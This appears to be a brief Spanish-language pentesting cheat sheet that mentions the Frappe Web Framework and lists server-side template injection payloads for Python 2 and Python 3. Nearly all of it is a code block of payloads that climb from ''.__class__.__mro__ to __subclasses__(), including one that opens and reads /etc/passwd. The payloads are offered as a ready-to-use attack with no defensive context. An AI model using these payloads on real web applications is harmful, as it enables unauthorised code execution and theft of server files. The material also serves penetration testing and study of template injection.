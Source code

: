 ### Instalacion
- Frappe Web Framework

### SSTI
```
PYTHON_2
''.__class__
''.__class__.__mro__[2]
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
PYTHON_3
''.__class__
''.__class__.__mro__[1].__subclasses__()
''.__class__.__mro__[1].__subclasses__()[40]
dir(''.__class__.__mro__[1].__subclasses__()[40])
```

**MRO:** Método Orden de Resolución

